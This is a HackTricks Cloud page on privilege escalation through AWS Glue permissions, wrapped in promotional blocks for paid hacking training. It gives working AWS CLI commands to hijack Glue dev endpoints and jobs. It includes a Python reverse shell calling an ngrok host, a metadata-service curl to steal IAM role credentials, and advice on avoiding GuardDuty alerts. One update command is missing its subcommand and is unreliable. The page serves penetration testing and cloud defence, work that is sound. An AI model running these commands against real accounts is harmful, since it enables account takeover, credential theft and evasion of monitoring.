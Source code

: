 # AWS - Glue Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

An attacker with the `iam:PassRole` and `glue:CreateDevEndpoint` permissions could c**reate a new AWS Glue development endpoint and pass an existing service role to it**. They then could SSH into the instance and use the AWS CLI to have access of the permissions the role has access to.

```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
    --role-arn arn_of_glue_service_role \
    --public-key file:///path/to/my/public/ssh/key.pub
```

Now the attacker would just need to **SSH into the development endpoint** to access the roles credentials.

```bash
# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

Even though it is not specifically noted in the GuardDuty documentation, it would be a bad idea to exfiltrate the credentials from the Glue Instance. Instead, **the AWS API should be accessed directly from the new instance**.

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

An attacker with the **`glue:UpdateDevEndpoint`** permission would be able to **update the associated SSH public key of an existing Glue development endpoint**, to then SSH into it and have access to the permissions the attached role has access to.

```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
    --public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

Now the attacker would just need to **SSH into the development endpoint to access the roles credentials**. The AWS API should be accessed directly from the new instance to avoid triggering alerts.

**Potential Impact:** Privesc to the glue service role used.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

An attacker with those permissions can **create/update a job attaching any glue service account** and start it. The job can execute arbitrary python code, so a reverse shell can be obtained and used to **steal the IAM credentials** of the attached role.

```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
    --name privesctest \
    --role arn:aws:iam::93424712358:role/GlueAdmin \
    --command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
    --actions '[{"JobName": "privesctest"}]' --start-on-creation \
    --schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateJob`

Just with the update permission an attacked could steal the IAM Credentials of the already attached role.

**Potential Impact:** Privesc to the glue service role attached.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
